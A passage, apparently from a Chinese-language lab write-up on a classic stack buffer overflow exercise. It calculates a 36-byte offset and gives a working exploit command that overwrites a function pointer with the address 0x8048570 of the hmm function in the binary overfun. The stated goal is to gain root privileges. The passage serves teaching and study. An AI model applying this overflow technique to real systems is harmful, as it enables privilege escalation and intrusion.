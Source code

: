 可见，buf 的首地址与存放 good 函数入口地址的地址相差 $4\times9=36$ 个 字节。所以我们先给 buf 数组填充 36 个字符‘A’，再将 hmm 地址 写入即可。

### 攻击

已知hmm 函数的入口地址为：0x8048570，我们让程序能进入此处。

生成36个A。

```
python -c "print 'A'*36"
```

进行攻击，设置输入为36个字符+hmm函数入口地址，用hmm函数入口地址覆盖good函数入口地址，使程序执行hmm函数，进而获取root权限

```bash
./overfun $(python -c "print 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x85\x04\x08'")
```

![image-20220322130419141](Buffer_Overflowproj/image-20220322130419141.png)

攻击成功











